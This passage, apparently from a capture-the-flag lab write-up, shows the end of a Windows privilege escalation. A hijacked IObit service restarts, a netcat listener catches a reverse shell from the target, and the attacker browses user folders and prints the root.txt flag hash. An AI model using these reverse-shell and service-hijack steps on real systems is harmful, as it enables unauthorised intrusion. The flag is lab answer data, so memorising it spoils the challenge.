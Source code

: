 ```
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2672
        FLAGS              : 

C:\Program Files (x86)\IObit>

```


now we got the access of it
```
┌──(dd0x㉿kali)-[~]
└─$ nc -nlvp 4443               
listening on [any] 4443 ...
connect to [10.23.62.59] from (UNKNOWN) [10.10.118.118] 49264
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```


```
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users

09/26/2019  11:29 PM    <DIR>          .
09/26/2019  11:29 PM    <DIR>          ..
09/26/2019  07:11 AM    <DIR>          Administrator
09/27/2019  09:09 AM    <DIR>          bill
08/22/2013  08:39 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  44,154,851,328 bytes free
```

```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\Administrator\Desktop

10/12/2020  12:05 PM    <DIR>          .
10/12/2020  12:05 PM    <DIR>          ..
10/12/2020  12:05 PM             1,528 activation.ps1
09/27/2019  05:41 AM                32 root.txt
               2 File(s)          1,560 bytes
               2 Dir(s)  44,154,851,328 bytes free

C:\Users\Administrator\Desktop>cat root.txt
cat root.txt
'cat' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314f57607c00fd09803a587db80
C:\Users\Administrator\Desktop>
```